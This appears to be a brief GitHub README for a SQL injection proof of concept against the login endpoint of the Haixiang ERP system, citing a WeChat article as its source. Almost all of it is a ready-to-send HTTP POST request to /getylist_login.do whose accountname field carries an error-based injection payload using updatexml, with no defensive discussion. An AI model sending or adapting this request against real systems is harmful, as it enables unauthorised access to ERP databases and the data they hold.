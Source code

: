 # haixiangERP_sqli

from: https://mp.weixin.qq.com/s/5GCq5nuZVd7W6srj1ns9xQ
```
POST /getylist_login.do HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Content-Length: 77
Accept-Encoding: gzip
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

accountname=test' and (updatexml(1,concat(0x7e,(select md5(123)),0x7e),1));--
```
